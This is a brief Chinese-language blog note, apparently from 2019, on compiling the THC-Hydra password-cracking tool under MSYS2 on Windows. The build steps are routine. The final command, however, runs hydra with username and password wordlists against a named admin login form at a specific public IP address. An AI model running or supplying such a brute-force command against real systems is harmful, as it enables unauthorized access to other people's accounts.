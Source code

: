```yaml
---
author: XhstormR
categories:
- Notes
date: 2019-03-01T14:11:28+08:00
title: 构建 hydra
---
```


<!--more-->

Updated on 2019-03-01

> [MSYS2](https://mirrors.ustc.edu.cn/help/msys2.html)
>
> [hydra](https://github.com/vanhauser-thc/thc-hydra/archive/master.zip)

## Step
```bash
D:\Work\Download\thc-hydra-master>

pacman -Syu
pacman -S --noconfirm --needed gcc make

./configure
make
make install

hydra -V -F -L username.txt -P password.txt -o ok.txt 'http-post-form://222.69.159.53:80/cm_admin/login.aspx:txtloginid=^USER^&txtpsw=^PASS^:F=password incorrect!'
```

## Reference
* 依赖：
  * msys-2.0.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/msys2-runtime-2.11.2-1.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/msys2-runtime-2.11.2-1-x86_64.pkg.tar.xz)
* [MSYS2](https://www.msys2.org)

